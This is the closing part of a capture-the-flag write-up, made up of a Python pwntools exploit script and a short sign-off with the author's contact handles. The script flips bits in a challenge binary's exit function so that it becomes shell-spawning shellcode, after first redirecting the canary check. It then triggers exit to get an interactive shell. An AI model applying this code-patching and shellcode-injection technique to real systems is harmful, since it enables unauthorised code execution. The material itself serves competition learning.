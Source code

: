 ```py
exit_bytes = [ 0xf3   , 0x0f ,   0x1e,    0xfa  ,  0xf2 ,   0xff,    0x25  ,  0x3d ,0x2e ,   0x00 ,   0x00   , 0x0f   , 0x1f  ,  0x44 ,   0x00 ,   0x00 ,0xf3  ,  0x0f ,   0x1e ,   0xfa  ,  0x31  ,  0xed   , 0x49    ,0x89   , 0xd1   , 0x5e  ,  0x48,    0x89  ,  0xe2    ,0x48  ,  0x83  ,  0xe4, 0xf0   , 0x50  ,  0x54   , 0x45   , 0x31   , 0xc0  ,  0x31  ,  0xc9  ,0x48    ,0xc7   , 0xc7  ,  0xea   , 0x15 ,   0x40  ,  0x00    ,0xff , 0x15,    0x1b ,   0x2e    ,0x00,    0x00 ,   0xf4    ,0x66    ,0x2e,0x0f  ,  0x1f ,   0x84 ,   0x00 ,   0x00,    0x00 ,   0x00 ,   0x00 ,0xf3 ,   0x0f  ,  0x1e  ,  0xfa  ,  0xc3  ,  0x66,0x2e,0x0f]
exit_address = 0x4011a0
desired_bytes = asm(shellcraft.sh())

def flip(address, bit):
    p.recvuntil("through:\n")

    p.sendline(hex(address))
    p.recvuntil("flip:")
    p.sendline(str(bit))


def main():
    global p
    p = process()
    flip(0x4015e2, 4) #flip the canary jump to go back to main

    curr_address = exit_address
    for i in range(len(desired_bytes)):
        shellcode_bits = bin(desired_bytes[i])[2:]
        exit_bits = bin(exit_bytes[i])[2:]

        #fill 0's at the start

        shellcode_bits = "0" * (8 - len(shellcode_bits)) + shellcode_bits 
        exit_bits = "0" * (8 - len(exit_bits)) + exit_bits

        for i in range(len(exit_bits)):
            if exit_bits[i] != shellcode_bits[i]:
                flip(curr_address, i)
        curr_address += 1

    flip(0, 69) #trigger exit

    p.interactive()


if __name__ == "__main__":
    main()

```

## Appendix

I really enjoyed the challenges as they were quite fun to solve.

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).

